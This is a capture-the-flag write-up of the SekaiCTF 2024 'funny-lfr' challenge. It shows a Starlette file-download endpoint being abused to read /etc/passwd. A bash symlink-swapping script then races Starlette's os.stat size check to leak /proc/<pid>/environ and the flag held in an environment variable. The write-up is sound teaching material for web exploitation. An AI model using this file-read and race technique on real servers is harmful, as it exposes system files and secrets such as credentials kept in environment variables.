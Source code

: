 ```yaml
---
title: cygnusx - sekaictf2024
layout: default
parent: 2024
nav_order: 3
grand_parent: Writeups
---
```


## funny-lfr sekaictf2024
183 points - 36 solves

**Challenge author**: irogir

{: .note }
This challenge came with an ssh access for `convenience`, but we ended up using it as part of the solve...

### Challenge Description: 
Funny lfr

We are given a Starlette server that looks like this:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile that looks like this:

```Dockerfile
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

From the Dockerfile, we need to read an environment variable named FLAG to get the flag.

The website serves us any file from the server.

Spinning up the Dockerfile on port 1337 locally, we can go to `http://localhost:1337/?file=/etc/passwd` and get the contents of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Typically on linux systems, the current process environment variables are stored in `/proc/<pid>/environ`. The current process has its environment variables in `/proc/self/environ`. We can use this to read the environment variables of the running process.

At first glance this seems easy right? Just go to `http://localhost:1337/?file=/proc/self/environ` and we should get the flag.

But when we try to do that, we are recieved by an empty page?

![empty](../../../images/empty_page.png)

Checking the error logs of the server we see 
```
h11._util.LocalProtocolError: Too much data for declared Content-Length
```

How can such a small file be too much data for the declared Content-Length?

After taking a closer look at Starlette's source code on github, we find that it [uses os.stat to determine file size](https://github.com/encode/starlette/blob/master/starlette/responses.py#L325).

![os.stat](../../../images/os_stat.png)

Lets see what stat says about our `/proc/self/environ` file.

![stat_output](../../../images/stat_output.png)

Strangely enough it says the file size is 0 bytes. But we know that the file is not empty.

After some research this is because the `/proc` directory is actually in the `procfs` filesystem. This filesystem is a virtual filesystem that doesnt contain actual files. [See more info on procfs here](https://en.wikipedia.org/wiki/Procfs).

My first thought now, is to try and find some other file that might contain a process's environment variables.

I was curious about where the kernel stores the environment variables of a process, and took a deep dive into the c `getenv` function. Ultimately this ended up being a dead end.

I also wrote a small script to search every single file on the file system for the word `SEKAI{` and found nothing.

After being stuck at this step for a while, a teammate of mine came up with the idea that there could be a race condition with `os.stat` and symlinks.

A [symlink](https://www.komprise.com/glossary_terms/symbolic-link/) is a file that points to another file. If we can create a symlink to a random file with content-length greater than the length of `/proc/self/environ` , we can try to swap the symlink to `/proc/self/environ` while the server is running `os.stat`.

This way, the server stats a file with a large content-length, then the symlink is swapped to `/proc/self/environ`, and then the server reads from `/proc/self/environ` instead of the original file.

A small diagram of this is shown below.

![symlink_swap_diagram](../../../images/symlink_swap_diagram.png)

What's the best way to achieve this race condition? 

Beloved `brute force` of course!

{: .note }
`/proc/self/environ` will be different for each process, so we need to find out the pid of the server with something like `ps aux` and replace `self` with the pid. From now on I will be using this `pid`, in my case `7` in place of `self`.

Since this challenge gives us ssh access for some reason, we can write a bash script to repeatedly swap the symlink between some large file and `/proc/7/environ`.

The script is shown below:

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/bruh
ln -s /tmp/bruh /tmp/asd

while true; do
    ln -sf /proc/7/environ /tmp/asd
    ln -sf /tmp/bruh /tmp/asd
done
```

The script echos 5000 `A`'s into a file `/tmp/bruh`, and then creates a symlink `/tmp/asd` to `/tmp/bruh`.

Then it enters an infinite loop, where it swaps the symlink between `/proc/7/environ` and `/tmp/bruh`.

We can run this script on the server, and then spam curl requests to `http://localhost:1337/?file=/tmp/asd` until we get the flag.

Trying this on remote we get... `Internal Server Error`?

What is going on? The script worked locally but on remote we get an internal server error?

After some debugging we find that `/tmp` is a directory that has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set. This gives the webserver permission denied when it tries access the contents of the symlink.

We can fix this by creating a new directory in `/tmp` and running the script there.

Here I call this directory `b`, and we can rereun the script in the `/tmp/b` directory.

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/b/bruh
ln -s /tmp/b/bruh /tmp/b/asd

while true; do
    ln -sf /proc/7/environ /tmp/b/asd
    ln -sf /tmp/b/bruh /tmp/b/asd
done
```

Running this on remote, and spamming a couple curl requests gets the content of `/proc/7/environ` and we get the flag!

SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}

### My Thoughts

This was a fun challenge that was seemingly easy at first, but ended up being a bit more difficult than anticipated. I decided to write this one up even though it had a lot of solves because it used the Starlette library itself as a jail, and I thought that was pretty cool. 

Also [funny video of solve here](https://streamable.com/iajafe)


